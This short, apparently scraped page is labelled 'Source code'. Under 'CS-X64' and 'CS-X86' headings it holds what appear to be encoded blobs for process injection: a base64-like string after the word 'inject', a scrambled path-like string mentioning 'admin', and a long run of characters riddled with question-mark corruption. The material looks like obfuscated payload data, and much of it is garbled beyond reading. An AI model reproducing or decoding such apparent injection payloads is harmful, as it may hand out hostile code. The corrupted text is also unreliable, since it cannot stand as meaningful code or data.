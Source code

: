 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

wersf34???|2????,5;?6,h;?10,,????;14,6???;18,j????;22????,x;2???6,V;3??0,x;3?4,??Z;38,??b;42???,6???;4?6,?K;50,???7;54,????5;58???,v;?62,N???;???6????6,?X;???70,S;???74,c???;78????,n?;82,9????;86???,S????;90,5??;94?,???7?;98??,????3???;102,??o;1????06,Z;????110?,o;11?4????,P;1???18,@????;122,?Z;1???26,6??;130,?T???;???13???4,2????;|h????A???r?5C0??h?h??6?ml,?9YY6?xyC????jzU????2x0L??AV???vhI????x???xDnZC?LM????bVn??B??6rNLK????NBq7??y???U????25T9l?v???105?NgD???vXD???ZeSVn???Dc5w0??nwl????v9z????UYS09???z5n?x???073l?j??3???zLN?oVmAZ????vg?Hoh??zmPB??Vw@????Pf???BZ9I???T6xE?rTCL?32=?qthrcvs
